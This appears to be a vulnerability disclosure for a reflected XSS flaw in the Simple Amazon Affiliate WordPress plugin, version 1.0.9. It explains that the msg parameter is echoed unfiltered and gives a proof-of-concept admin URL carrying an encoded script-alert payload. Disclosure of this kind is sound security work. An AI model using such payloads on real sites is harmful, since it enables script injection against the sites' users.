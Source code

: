 ### The message processing interface of the wordpress plug-in Simple Amazon Affiliate has an XSS vulnerability.

**Official website**: https://wordpress.org/plugins/simple-amazon-affiliate/

**Version**：1.0.9

**Route**：/wordpress/wp-admin/admin.php?page=saa-affiliate

**API function**: process messages

**Injection parameters**: msg

**Request method**：GET

**Complete vulnerability trigger related interfaces and parameters**：/wordpress/wp-admin/admin.php?page=saa-affiliate&msg=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

#### 1.Vulnerability analysis

In the simple-amaon-affilliate.php file, there is an interface that can pass in the parameter msg, and it will be directly output in the page in the form of echo. It has not been subjected to any security filtering verification, resulting in an XSS vulnerability.

![image-20250302212559402](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302212559402.png)

#### 2.Vulnerability verification and exploitation

We construct the following URL:

```
http://localhost/wordpress/wp-admin/admin.php?page=saa-affiliate&msg=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

After accessing, it is found that the page pops up successfully, and there is an XSS vulnerability.

![image-20250302212822630](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302212822630.png)